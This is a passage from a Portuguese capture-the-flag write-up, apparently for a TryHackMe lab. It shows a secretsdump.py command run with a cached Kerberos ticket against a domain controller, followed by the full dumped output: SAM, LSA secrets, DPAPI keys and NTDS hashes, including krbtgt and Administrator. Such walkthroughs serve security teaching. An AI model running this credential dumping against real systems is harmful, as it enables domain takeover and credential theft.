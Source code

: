 
![](attachment/34280ab4ce182bba4ebf74a6382d7b88.png)
Usando o `ccache` para executar ações como se fosse o `Administrator`.

### 6.2.5 Obtendo acesso ao sistema
#### 6.2.5.1 Uso do `secretsdump` para extração de credenciais

O `secretsdump.py` tem o objetivo principal objetivo de fazer **dump de credenciais** (`SAM, LSA Secrets, NTDS`) de um host remoto.

**Comando:**  `secretsdump.py -k -target-ip 10.10.107.33 K2ROOTDC.k2.thm`

> [!Observação]
> O parâmetro `-k` no `secretsdump.py` é usado para **autenticação via Kerberos usando o ticket já existente no cache**, ao invés de solicitar senha ou hash.

```
arthur-strelow@ubuntu-star:~/Downloads/k2$ secretsdump.py -k -target-ip 10.10.107.33 K2ROOTDC.k2.thm

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:15ecc755a43d2e7c8001215609d94b90:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
K2\K2ROOTDC$:plain_password_hex:4fe14a1a537356d42c20143aa65201cec9587b77ab993219dcac4e7c7bff73978a6249f3216a839668defcd1e2eb1086536cfbd46f6d3ad1acd61cad8d632b5dfced4d39e9281f6bb5136f367c68e403223993a94a6dd63afc4a6f097da5804ec6da0db57e1e58b7aa5d0a9d52d55effb2f8e75590d2a66822023844dd1e5cf73380ab993f7e0e3a4305603147fd45fb504d676262dfa3692b883c6246b6b6eb8d97d8dc7d8c98a91e70c7cc07dd3f1cf2060c9691ee9d3b48d7cbedc210bad74c944afbf85cd3a5c7afd7cef7df65e0b6fd0c4329b09ca55bbeb5c7002d37b41b5d365c410736ac1ff6438230394fd2
K2\K2ROOTDC$:aad3b435b51404eeaad3b435b51404ee:6708bec281a27eee7a084afb524aa923:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x0e88ce11d311d3966ca2422ac2708a4d707e00be
dpapi_userkey:0x8b68be9ef724e59070e7e3559e10078e36e8ab32
[*] NL$KM 
 0000   8D D2 8E 67 54 58 89 B1  C9 53 B9 5B 46 A2 B3 66   ...gTX...S.[F..f
 0010   D4 3B 95 80 92 7D 67 78  B7 1D F9 2D A5 55 B7 A3   .;...}gx...-.U..
 0020   61 AA 4D 86 95 85 43 86  E3 12 9E C4 91 CF 9A 5B   a.M...C........[
 0030   D8 BB 0D AE FA D3 41 E0  D8 66 3D 19 75 A2 D1 B2   ......A..f=.u...
NL$KM:8dd28e67545889b1c953b95b46a2b366d43b9580927d6778b71df92da555b7a361aa4d8695854386e3129ec491cf9a5bd8bb0daefad341e0d8663d1975a2d1b2
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:15ecc755a43d2e7c8001215609d94b90:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:5dea71ff019233bdca7ec46510727632:::
j.smith:1111:aad3b435b51404eeaad3b435b51404ee:9545b61858c043477c350ae86c37b32f:::
o.armstrong:1113:aad3b435b51404eeaad3b435b51404ee:6cc089ba579e04d4f44a468b6ad1c409:::
K2ROOTDC$:1008:aad3b435b51404eeaad3b435b51404ee:6708bec281a27eee7a084afb524aa923:::
```